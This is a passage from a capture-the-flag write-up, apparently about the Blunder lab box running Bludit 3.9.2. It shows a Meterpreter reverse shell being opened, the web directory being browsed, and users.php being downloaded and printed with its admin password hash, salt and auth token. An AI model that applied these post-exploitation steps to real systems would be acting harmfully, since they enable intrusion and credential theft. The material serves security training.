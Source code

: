 ```text
[*] Meterpreter session 1 opened (10.10.15.57:44446 -> 10.10.10.191:57506) at 2020-08-08 22:30:06 -0400
[+] Deleted .htaccess

meterpreter >
```

After doing a few quick configurations of the parameters for the exploit, I had a meterpreter shell.

## Road to User

```text
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-08-08 22:35:16 -0400  thumbnails

meterpreter > pwd
/var/www/bludit-3.9.2/bl-content/tmp
meterpreter > cd ..
meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/databases
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-04-28 06:24:44 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-04-28 06:35:30 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2019-11-27 06:53:41 -0500  plugins
100644/rw-r--r--  98831  fil   2020-08-08 22:39:58 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 06:28:54 -0400  site.php
100644/rw-r--r--  2276   fil   2020-04-28 06:24:44 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-04-28 06:24:44 -0400  tags.php
100644/rw-r--r--  1268   fil   2020-04-28 06:20:36 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 1.24 KiB of 1.24 KiB (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

The file `users.php` in the `/var/www/bludit-3.9.2/bl-content/databases/` folder sounded like a likely place to find some information about...users.

```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
```